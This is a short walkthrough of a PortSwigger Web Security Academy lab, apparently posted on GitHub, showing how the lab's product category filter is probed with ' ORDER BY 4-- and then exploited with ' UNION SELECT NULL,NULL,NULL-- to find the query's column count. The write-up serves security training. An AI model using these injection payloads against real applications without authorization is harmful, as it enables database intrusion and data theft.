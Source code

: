 # Lab: SQL injection UNION attack, determining the number of columns returned by the query

## Lab's description

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

**End goal :**  determine the number of columns returned by the query by performing a SQL injection UNION attack 

## Solution

First, I choose any type of category
`https://0a7500830322a6b781704d6000b40045.web-security-academy.net/filter?category=Pets`

Now, I try to modify the link to determine the number of columns required.

After I try, I can see `' ORDER BY 4--` display error. That means it has 3 columns. So I can exploit the payload: `' UNION SELECT NULL, NULL, NULL--`

`https://0a7500830322a6b781704d6000b40045.web-security-academy.net/filter?category=Pets'+UNION+SELECT+NULL,NULL,NULL--`

**Source:** ![Determining the number of columns required](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-determining-the-number-of-columns-required/sql-injection/union-attacks/lab-determine-number-of-columns)
